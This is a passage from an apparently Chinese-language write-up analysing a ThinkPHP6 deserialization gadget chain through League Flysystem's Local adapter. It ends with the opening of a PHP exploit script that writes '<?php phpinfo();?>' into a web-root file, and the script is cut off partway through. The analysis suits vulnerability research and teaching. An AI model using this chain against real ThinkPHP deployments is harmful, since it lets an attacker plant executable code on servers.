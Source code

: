 > 查看源码后发现 `src/Adapter/Local.php` 中的 `Local` 类符合要求，先跟进一下 `has()` 方法

<img src="./images/tp6-pop-3-4.png" alt="">

> 跟进 `applyPathPrefix()` 方法，其先调用了前面的 `getPathPrefix()` 方法，其中 `$pathPrefix` 是可控的，`ltrim()` 方法删除字符串开头的 `/` 和 `\`，因此可以直接传入一个文件名，然后控制 pathPrefix 为路径部分，再回到 `has()` 方法执行 `file_exists()` 方法，只需要保证传入的文件名不存在即可返回 false

<img src="./images/tp6-pop-3-5.png" alt="">

> 再来看看 `write()` 方法，`$location` 的值来源于 `$this->file` 传入 `applyPathPrefix` 处理后的文件名，`$contents` 的值是经过 `json_encode` 处理后带有文件内容的 json 数据

<img src="./images/tp6-pop-3-6.png" alt="">

### exp
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
```